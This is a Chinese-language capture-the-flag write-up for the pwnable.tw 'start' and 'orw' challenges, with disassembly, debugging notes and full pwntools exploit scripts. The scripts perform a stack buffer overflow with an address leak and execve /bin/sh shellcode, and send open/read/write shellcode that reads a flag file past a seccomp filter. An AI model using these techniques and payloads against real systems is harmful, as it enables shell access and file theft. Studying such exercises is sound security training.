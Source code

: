 # Challenges 100 Week 3


# Challenges_100-Week_3

|    Challenges     |   Tricks    |
| :---------------: | :---------: |
| pwnable.top-start | `shellcode` |
|  pwnable.top-orw  | `shellcode` |

<!-- more -->

# start

## ida

```assembly
push    esp
push    offset _exit
xor     eax, eax
xor     ebx, ebx
xor     ecx, ecx
xor     edx, edx
push    3A465443h
push    20656874h
push    20747261h
push    74732073h
push    2774654Ch
mov     ecx, esp        ; addr
mov     dl, 14h         ; len
mov     bl, 1           ; fd
mov     al, 4
int     80h             ; LINUX - sys_write
xor     ebx, ebx
mov     dl, 3Ch ; '<'
mov     al, 3
int     80h             ; LINUX - sys_read
add     esp, 14h
retn
pop     esp
xor     eax, eax
inc     eax
int     80h             ; LINUX - sys_exit
```

调试：

```shell
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
0x8048000  0x8049000 r-xp     1000 0      /home/niebelungen/Desktop/pwnable.tw/start/start
0xf7ff8000 0xf7ffc000 r--p     4000 0      [vvar]
0xf7ffc000 0xf7ffe000 r-xp     2000 0      [vdso]
0xfffdd000 0xffffe000 rwxp    21000 0      [stack]
```

没有足够的gadget让我们利用，正好stack有rwx权限，所以我们想办法在栈上写shellcode，再ret到那里。

首先我们要想办法leak栈的地址。

在`add esp,14h`后，`esp`指向了返回地址，下一条指令就是`pop esp`,而栈上保存的就是栈的地址。通过`ret`到`mov ecx,esp`调用`sys_write`可以leak栈地址。由此，再加上一个`offset`就可以到shellcode。

注意要写入的shellcode必须要短，0x3c-0x14-0x4=0x24。

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
leak = lambda name,addr: log.success('{:#x}'.format(name,addr))
context.log_level="DEBUG"
#context.arch="amd64"

local=0
binary='./start'
#gdb.attach(p)
if local:
	p=process(binary)
else:
	p=remote('chall.pwnable.tw',10000)

elf = ELF(binary,checksec=False)
#gdb.attach(p)

shellcode='\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68'
shellcode+='\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb0\x0b\xcd\x80'#0x17
payload='a'*0x14+p32(0x8048087)
p.send(payload)
p.recvuntil("Let's start the CTF:")
stack=u32(p.recv(4))
print hex(stack)

payload='a'*0x14+p32(stack+20)+shellcode
p.send(payload)
p.interactive()
```

pwnable.tw真的不错。这个题考察了汇编基础、shellcode的编写。这里记录一个shellcode的网站：[shellcode](http://shell-storm.org/shellcode/)

# orw

## ida

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}

unsigned int orw_seccomp()
{
  __int16 v1; // [esp+4h] [ebp-84h] BYREF
  char *v2; // [esp+8h] [ebp-80h]
  char v3[96]; // [esp+Ch] [ebp-7Ch] BYREF
  unsigned int v4; // [esp+6Ch] [ebp-1Ch]

  v4 = __readgsdword(0x14u);
  qmemcpy(v3, &unk_8048640, sizeof(v3));
  v1 = 12;
  v2 = v3;
  prctl(38, 1, 0, 0, 0);
  prctl(22, 2, &v1);
  return __readgsdword(0x14u) ^ v4;
}
```

这个题使用了沙箱`seccomp`用来限制系统调用。你只能使用`open`, `read`, `write`的系统调用。但是沙箱其实还有更复杂的机制，由于与本题的重点关系不大所以不再赘述。由于限制，我们的shellcode只能使用上述的三个函数。

## exp

```python
from pwn import *
#from LibcSearcher import LibcSearcher

leak = lambda name,addr: log.success('{:#x}'.format(name,addr))
context.log_level="DEBUG"
#context.arch="amd64"

local=0
binary='./orw'
#gdb.attach(p)
if local:
        p=process(binary)
else:
        p=remote('chall.pwnable.tw',10001)

elf = ELF(binary,checksec=False)
#gdb.attach(p)
file_name = "/home/orw/flag"
shellcode = shellcraft.open(file_name)
shellcode += shellcraft.read('eax','esp', 100)
shellcode += shellcraft.write(1, 'esp', 100)
shellcode = asm(shellcode)
p.sendline(shellcode)

p.interactive()
```

我这里取巧了，其实它的目的是让你手写汇编代码。


